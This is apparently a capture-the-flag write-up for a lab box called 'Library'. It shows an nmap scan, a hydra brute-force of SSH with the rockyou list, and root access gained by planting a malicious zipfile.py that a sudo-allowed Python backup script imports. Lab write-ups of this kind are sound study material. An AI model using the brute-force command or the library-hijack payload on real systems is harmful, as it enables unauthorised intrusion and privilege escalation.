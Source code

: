 # Library
Enumerating the server with `nmap` reveals:
```
➜  ~ nmap -p- 10.10.38.99
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-17 11:43 CET
Nmap scan report for 10.10.38.99
Host is up (0.055s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 64.26 seconds
```

If we go to the webserver we see a blog wit a single post and 3 comments.
The users who made the comments are `root`, `www-data` and `meliodas`.
If we check `robots.txt` we see:
```
User-agent: rockyou
Disallow: /
```
Seems like we should try brute forcing some ssh credentials with the rockyou wordlist.
Running `hydra` against the ssh service with the user `meliodas` is successful.
```
➜  ~ hydra -l meliodas -P ~/KaliLists/rockyou.txt 10.10.38.99 -t 4 ssh -V
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-17 11:57:35
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.38.99:22/
[ATTEMPT] target 10.10.38.99 - login "meliodas" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.38.99 - login "meliodas" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.38.99 - login "meliodas" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
.
.
.
[ATTEMPT] target 10.10.38.99 - login "meliodas" - pass "<redacted>" - 234 of 14344399 [child 3] (0/0)
[22][ssh] host: 10.10.38.99   login: meliodas   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-17 12:05:45
```

We can now login to the ssh service and read the user flag:
```
➜  ~ ssh meliodas@10.10.38.99
The authenticity of host '10.10.38.99 (10.10.38.99)' can't be established.
ECDSA key fingerprint is SHA256:sKxkgmnt79RkNN7Tn25FLA0EHcu3yil858DSdzrX4Dc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes      
Warning: Permanently added '10.10.38.99' (ECDSA) to the list of known hosts.
meliodas@10.10.38.99's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$ ls -la
total 40
drwxr-xr-x 4 meliodas meliodas 4096 Aug 24  2019 .
drwxr-xr-x 3 root     root     4096 Aug 23  2019 ..
-rw-r--r-- 1 root     root      353 Aug 23  2019 bak.py
-rw------- 1 root     root       44 Aug 23  2019 .bash_history
-rw-r--r-- 1 meliodas meliodas  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 meliodas meliodas 3771 Aug 23  2019 .bashrc
drwx------ 2 meliodas meliodas 4096 Aug 23  2019 .cache
drwxrwxr-x 2 meliodas meliodas 4096 Aug 23  2019 .nano
-rw-r--r-- 1 meliodas meliodas  655 Aug 23  2019 .profile
-rw-r--r-- 1 meliodas meliodas    0 Aug 23  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 meliodas meliodas   33 Aug 23  2019 user.txt
meliodas@ubuntu:~$ cat user.txt
<redacted>
```
For escalading privileges we run `sudo -l` to check if with can run anything as sudo.
Lo and behold we can run a `python` script!
```
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
Lets have a look at the script:
```
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```
Nothing too fancy, but we load the module `zipfile`.
Since we can write to the directory of the script, we can do some library hijacking.
Due to pythons module load order, modules in the same directory as the python script (in this case `/home/meliodas`), will be loaded first.
So if we make a module called `zipfile` in `/home/meliodas` that will be loaded instead of the intended one.
There's a function call to `zipfile.ZipFile`, so if we make a module with that function and have it spawn a shell, we'll get root access.
Let's now make a file called `zipfile.py` in `/home/meliodas` with the contents:
```
import os

ZIP_DEFLATED = "" # Attribute needs to be defined for function to be called 

def ZipFile(a,b,c):
  os.system("/bin/bash")
```
Running the backup script as sudo now grants us a root shell:
```
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py
root@ubuntu:~# cat /root/root.txt
<redacted>
```
